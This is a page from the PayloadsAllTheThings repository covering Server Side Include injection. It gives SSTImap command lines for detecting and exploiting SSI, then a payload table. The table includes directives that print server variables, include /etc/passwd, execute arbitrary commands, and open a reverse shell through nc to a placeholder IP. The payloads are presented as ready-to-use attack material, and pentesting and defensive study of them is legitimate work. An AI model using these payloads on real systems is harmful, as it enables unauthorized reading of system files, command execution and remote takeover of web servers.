

repository: swisskyrepo/PayloadsAllTheThings · page: Server Side Include Injection/index.html · generator: mkdocs

# Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [Edge Side Inclusion](#edge-side-inclusion)
* [References](#references)

## Tools

* [vladko312/SSTImap](https://github.com/vladko312/SSTImap) - Automatic SSTI detection tool with interactive interface based on [epinna/tplmap](https://github.com/epinna/tplmap), supports SSI detection and exploitation with `--legacy` or `-e SSI`

  ```bash
  python3 ./sstimap.py -u 'https://example.com/page?name=John' --legacy -s
  python3 ./sstimap.py -i -u 'https://example.com/page?name=Vulnerable*&message=My_message' -l 5 -e SSI
  python3 ./sstimap.py -i --legacy -A -m POST -l 5 -H 'Authorization: Basic bG9naW46c2VjcmV0X3Bhc3N3b3Jk'
  ```

## Methodology

SSI Injection occurs when an attacker can input Server Side Include directives into a web application. SSIs are directives that can include files, execute commands, or print environment variables/attributes. If user input is not properly sanitized within an SSI context, this input can be used to manipulate server-side behavior and access sensitive information or execute commands.

SSI format: `<!--#directive param="value" -->`

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Print the date          | `<!--#echo var="DATE_LOCAL" -->`         |
| Print the document name | `<!--#echo var="DOCUMENT_NAME" -->`      |
| Print all the variables | `<!--#printenv -->`                      |
| Setting variables       | `<!--#set var="name" value="Rich" -->`   |
| Include a file          | `<!--#include file="/etc/passwd" -->`    |
| Include a file          | `<!--#include virtual="/index.html" -->` |
| Execute commands        | `<!--#exec cmd="ls" -->`                 |
| Reverse shell           | `<!--#exec cmd="mkfifo /tmp/f;nc IP PORT 0</tmp/f\|/bin/bash 1>/tmp/f;rm /tmp/f" -->` |
